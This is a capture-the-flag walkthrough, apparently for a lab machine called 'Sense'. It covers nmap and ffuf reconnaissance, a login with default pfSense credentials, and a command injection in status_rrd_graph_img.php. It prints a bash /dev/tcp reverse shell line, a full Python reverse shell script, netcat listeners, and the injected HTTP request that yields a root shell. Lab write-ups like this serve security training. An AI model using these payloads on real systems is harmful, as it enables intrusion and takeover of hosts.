









# Sense - Easy Box

## Nmap Results

```
cat nmap/sense.nmap
# Nmap 7.95 scan initiated Sat Sep  5 18:58:49 2026 as: nmap -p- -T4 -sVC -oA nmap/sense -vvv 10.129.58.63
Nmap scan report for 10.129.58.63
Host is up, received echo-reply ttl 63 (0.040s latency).
Scanned at 2026-09-05 18:58:49 EDT for 172s
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE    REASON         VERSION
80/tcp  open  http       syn-ack ttl 63 lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.129.58.63/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp open  ssl/https? syn-ack ttl 63
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US/organizationalUnitName=Organizational Unit Name (eg, section)/emailAddress=Email Address/localityName=Somecity
| Issuer: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US/organizationalUnitName=Organizational Unit Name (eg, section)/emailAddress=Email Address/localityName=Somecity
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-10-14T19:21:35
| Not valid after:  2023-04-06T19:21:35
| MD5:   65f8:b00f:57d2:3468:2c52:0f44:8110:c622
| SHA-1: 4f7c:9a75:cb7f:70d3:8087:08cb:8c27:20dc:05f1:bb02
| -----BEGIN CERTIFICATE-----
| MIIEKDCCA5GgAwIBAgIJALChaIpiwz41MA0GCSqGSIb3DQEBCwUAMIG/MQswCQYD
| VQQGEwJVUzESMBAGA1UECBMJU29tZXdoZXJlMREwDwYDVQQHEwhTb21lY2l0eTEU
| MBIGA1UEChMLQ29tcGFueU5hbWUxLzAtBgNVBAsTJk9yZ2FuaXphdGlvbmFsIFVu
| aXQgTmFtZSAoZWcsIHNlY3Rpb24pMSQwIgYDVQQDExtDb21tb24gTmFtZSAoZWcs
| IFlPVVIgbmFtZSkxHDAaBgkqhkiG9w0BCQEWDUVtYWlsIEFkZHJlc3MwHhcNMTcx
| MDE0MTkyMTM1WhcNMjMwNDA2MTkyMTM1WjCBvzELMAkGA1UEBhMCVVMxEjAQBgNV
| BAgTCVNvbWV3aGVyZTERMA8GA1UEBxMIU29tZWNpdHkxFDASBgNVBAoTC0NvbXBh
| bnlOYW1lMS8wLQYDVQQLEyZPcmdhbml6YXRpb25hbCBVbml0IE5hbWUgKGVnLCBz
| ZWN0aW9uKTEkMCIGA1UEAxMbQ29tbW9uIE5hbWUgKGVnLCBZT1VSIG5hbWUpMRww
| GgYJKoZIhvcNAQkBFg1FbWFpbCBBZGRyZXNzMIGfMA0GCSqGSIb3DQEBAQUAA4GN
| ADCBiQKBgQC/sWU6By08lGbvttAfx47SWksgA7FavNrEoW9IRp0W/RF9Fp5BQesL
| L3FMJ0MHyGcfRhnL5VwDCL0E+1Y05az8PY8kUmjvxSvxQCLn6Mh3nTZkiAJ8vpB0
| WAnjltrTCEsv7Dnz2OofkpqaUnoNGfO3uKWPvRXl9OlSe/BcDStffQIDAQABo4IB
| KDCCASQwHQYDVR0OBBYEFDK5DS/hTsi9SHxT749Od/p3Lq05MIH0BgNVHSMEgeww
| gemAFDK5DS/hTsi9SHxT749Od/p3Lq05oYHFpIHCMIG/MQswCQYDVQQGEwJVUzES
| MBAGA1UECBMJU29tZXdoZXJlMREwDwYDVQQHEwhTb21lY2l0eTEUMBIGA1UEChML
| Q29tcGFueU5hbWUxLzAtBgNVBAsTJk9yZ2FuaXphdGlvbmFsIFVuaXQgTmFtZSAo
| ZWcsIHNlY3Rpb24pMSQwIgYDVQQDExtDb21tb24gTmFtZSAoZWcsIFlPVVIgbmFt
| ZSkxHDAaBgkqhkiG9w0BCQEWDUVtYWlsIEFkZHJlc3OCCQCwoWiKYsM+NTAMBgNV
| HRMEBTADAQH/MA0GCSqGSIb3DQEBCwUAA4GBAHNn+1AX2qwJ9zhgN3I4ES1Vq84l
| n6p7OoBefxcf31Pn3VDnbvJJFFcZdplDxbIWh5lyjpTHRJQyHECtEMW677rFXJAl
| /cEYWHDndn9Gwaxn7JyffK5lUAPMPEDtudQb3cxrevP/iFZwefi2d5p3jFkDCcGI
| +Y0tZRIRzHWgQHa/
|_-----END CERTIFICATE-----

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep  5 19:01:41 2026 -- 1 IP address (1 host up) scanned in 172.64 seconds
```

The nmap revealed that there are only 2 ports open on the box & interestingly enough, they both are `http` & `https` ports, i.e., port `80` & port `443`. On visiting the port 80 on my browser, I got redirected to the port 443 which turned out to be a login endpoint.



Wappalyzer didn't detect anything interesting other than web servers & javascript libraries.



However, I tried to access the `https://10.129.64.36/index.php` & I got the same page.



I tried directory fuzzing using `FFUF` to see if there are any interesting files on the web application.

```
ffuf -u https://10.129.64.185/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .txt,.php -fs 0

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://10.129.64.185/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .txt .php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

                        [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 479ms]
index.php               [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 477ms]
help.php                [Status: 200, Size: 6689, Words: 907, Lines: 174, Duration: 420ms]
stats.php               [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 54ms]
edit.php                [Status: 200, Size: 6689, Words: 907, Lines: 174, Duration: 81ms]
license.php             [Status: 200, Size: 6692, Words: 907, Lines: 174, Duration: 35ms]
system.php              [Status: 200, Size: 6691, Words: 907, Lines: 174, Duration: 54ms]
status.php              [Status: 200, Size: 6691, Words: 907, Lines: 174, Duration: 44ms]
changelog.txt           [Status: 200, Size: 271, Words: 35, Lines: 10, Duration: 32ms]
exec.php                [Status: 200, Size: 6689, Words: 907, Lines: 174, Duration: 73ms]
graph.php               [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 304ms]
wizard.php              [Status: 200, Size: 6691, Words: 907, Lines: 174, Duration: 162ms]
pkg.php                 [Status: 200, Size: 6688, Words: 907, Lines: 174, Duration: 62ms]
xmlrpc.php              [Status: 200, Size: 384, Words: 78, Lines: 17, Duration: 108ms]
reboot.php              [Status: 200, Size: 6691, Words: 907, Lines: 174, Duration: 51ms]
                        [Status: 200, Size: 6690, Words: 907, Lines: 174, Duration: 54ms]
interfaces.php          [Status: 200, Size: 6695, Words: 907, Lines: 174, Duration: 33ms]
system-users.txt        [Status: 200, Size: 106, Words: 9, Lines: 7, Duration: 13ms]
%7Echeckout%7E          [Status: 403, Size: 345, Words: 33, Lines: 12, Duration: 14ms]
:: Progress: [661641/661641] :: Job [1/1] :: 401 req/sec :: Duration: [0:11:13] :: Errors: 0 ::
```

`FFUF` revealed a lot of files & directories to begin with. So, I started visiting each & every one of them from first to last to see if I find anything interesting. The very first file that seemed interesting was the `changelog.txt` which revealed that only 2 out of 3 vulnerabilities have been patched, which means I might be able to exploit the one vulnerability they didn't patch.



Another really useful file I came up with was `system-users.txt`, which revealed the login credentials for the user `Rohit`.



However, the password for the user `Rohit` was not shown in plaintext within the file, but was mentioned as `company defaults`. So, I did a quick google search for default login credentials for pfsense.



Multiple source confirmed that the default login credentials for pfsense is `admin:pfsense`, so I tried to use them for the user `Rohit`.



And I got in by using the creds `rohit:pfsense`. And as soon as I got access to the dashboard, I was able to see the version number being used for pfsense. I quicky searched on google the vulnerabilities associated with the version number exposed on pfsense dashboard.



On searching to see if there are any public exploits available for the version `2.1.3` of pfsense, I got to know that there is a metasploit module available publicly to gain remote code execution. However, it would not be the optimal approach to use metasploit for gaining remote code execution as I would not get to learn much about the vulnerability itself. Therefore, I chose to manually exploit the vulnerability first & leaving the metasploit approach for later.

Turns out, that the vulnerability lies in the `GET` parameter `database` on `/status_rrd_graph_img.php` endpoint.



Notice how much time did it take to render the page for me. To confirm the `Command Injection` vulnerability, I'll use the `sleep` command.


Notice the change in the time it took to render the page, it changed from `403 ms` to `2966 ms` which is approximately `3 s`. This confirms the `Command Injection` vulnerability for the `database` parameter. Now, I tried to obtain a reverse shell through the `Command Injection` vulnerability.

After trying out a lot of permutations & combinations to get a reverse shell, I found the one that worked for me. I tried the following before I actually got a reverse shell:

- Tried `bash -c 'bash -i >& /dev/tcp/10.10.17.235/9001 0>&1'` to get a shell, which didn't work.
- Tried the base64 version of the bash reverse shell, which didn't work.
- Tried a lot of different netcat alternatives, but didn't work.
- Tried `mkfifo` reverse shell, which didn't work either.
- Tried the base64 version of the `mkfifo` reverse shell, but didn't work.

Then I tried to dissect the first reverse shell, which was a bash reverse shell command, & it turned out that the web application is filtering out some of the characters like `-` & `/`. I couldn't find my way around them. However, I did know a way to pass arguments, or commands, through `nc` (netcat) so I went ahead & tried that. For that purpose, I created a `cmd` file on my machine which I would pass into the `nc` command as input. I, again, tried a lot of different permutations & combinations for this approach but the one that worked out for me was a python reverse shell:

```
cat cmd
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.17.235",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

And for the setup & approach that I have chosen, I would need to use 2 separate netcat listeners, one for sending the command & the other to catch the reverse shell.

```
nc -lvnp 9001 < cmd
Listening on 0.0.0.0 9001

```

```
nc -lvnp 9002
Listening on 0.0.0.0 9002

```

After seding the following request from my `Burpsuite`'s repeater tab, I got a successfull hit.

```
GET /status_rrd_graph_img.php?database=queue;nc+10.10.17.235+9001|python HTTP/1.1
Host: 10.129.64.201
Cookie: PHPSESSID=97569912327e37b8de6724c9afd8a51b; cookie_test=1789667629
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.129.64.201/index.php
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


```

I got a successfull hit on my nc port 9001:

```
nc -lvnp 9001 < cmd
Listening on 0.0.0.0 9001
Connection received on 10.129.64.201 31528
```

And after I hit `Ctrl+C` on the netcat listener, which was listening on port 9001, I got the reverse shell as the user `root` on the other netcat listener which was listening on port 9002.

```
nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.129.64.201 53346
# id
id
uid=0(root) gid=0(wheel) groups=0(wheel)
# ls /home
ls /home
.snap   rohit
# wc -c /home/rohit/user.txt
wc -c /home/rohit/user.txt
      32 /home/rohit/user.txt
# wc -c /root/root.txt
wc -c /root/root.txt
      33 /root/root.txt
#
```

And I was able to retrieve both, the user flag & the root flag.